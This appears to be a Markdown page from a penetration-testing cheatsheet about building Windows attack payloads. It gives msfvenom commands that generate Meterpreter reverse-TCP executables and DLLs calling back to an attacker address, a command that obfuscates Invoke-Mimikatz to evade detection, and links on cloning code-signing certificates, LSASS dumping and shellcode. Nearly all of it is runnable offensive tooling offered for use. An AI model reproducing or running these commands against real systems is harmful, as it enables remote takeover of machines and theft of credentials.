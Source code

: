 ```yaml
---
layout: post
title: dev / win / build
category: 40-dev
parent: cheatsheets
modified_date: 2023-07-17
permalink: /pen/win/build
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [msfvenom](#msfvenom)
* [sign](#sign)
* [obfuscate](#obfuscate)
* [sources](#sources)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='msfvenom'></a>msfvenom
pbuild = payload build
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='sign'></a>sign
psign = payload sign
* [code signing certificates cloning](https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec)

## <a name='obfuscate'></a>obfuscate
```sh
# PyFuscation (https://github.com/CBHue/PyFuscation) bring small usefull features
python3 PyFuscation.py -fvp --ps ./Scripts/Invoke-Mimikatz.ps1
```

## <a name='sources'></a>sources

*[cocomelonc/registry-run-keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)
*[cocomelonc/dump-lsass](https://cocomelonc.github.io/malware/2023/05/11/malware-tricks-28.html)
*[cocomelonc/run-shellcode-via-settimer](https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html)
*[ired.team/write-shellcode-c](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)
*[codeproject/write-shellcode-c++](https://www.codeproject.com/Articles/5304605/Creating-Shellcode-from-any-Code-Using-Visual-Stud)
*[byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)


